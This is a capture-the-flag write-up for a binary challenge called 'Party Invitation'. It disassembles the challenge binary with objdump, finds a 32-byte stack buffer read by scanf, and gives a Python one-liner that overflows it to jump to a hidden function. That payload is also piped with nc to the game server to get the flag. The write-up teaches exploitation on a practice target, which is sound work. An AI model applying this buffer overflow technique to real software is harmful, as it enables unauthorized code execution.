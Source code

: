 # Party Invitation

## Question Text

There's an awesome that's going to go down next week. 

Created by Noans

## Distribution
AwesomeParty `SHA1: 08797f1fd4473e8d09d64efda3ca429ea0d9afc0`

## Solution
1. Do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
`0000000000400586 <check>:`  
`400586:	55                   	push   %rbp`  
`400587:	48 89 e5             	mov    %rsp,%rbp`  
`40058a:	48 83 ec 20          	sub    $0x20,%rsp`  
`40058e:	48 8d 45 e0          	lea    -0x20(%rbp),%rax`  
`400592:	48 89 c6             	mov    %rax,%rsi`  
`400595:	bf 78 06 40 00       	mov    $0x400678,%edi`  
`40059a:	b8 00 00 00 00       	mov    $0x0,%eax`  
`40059f:	e8 cc fe ff ff       	callq  400470 <__isoc99_scanf@plt>`  
`4005a4:	bf 7b 06 40 00       	mov    $0x40067b,%edi`  
`4005a9:	e8 a2 fe ff ff       	callq  400450 <puts@plt>`  
`4005ae:	90                   	nop`  
`4005af:	c9                   	leaveq`  
`4005b0:	c3                   	retq`  
Where the third line tells us 32 bytes is reserved for a variable.
3. Derive that one needs to override 32 bytes + rbp to overwrite return address.
4. Also derive address of `awesome` function is `4005b1`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\xb1\x05\x40"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\xb1\x05\x40"' | nc play.spgame.site 50000`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64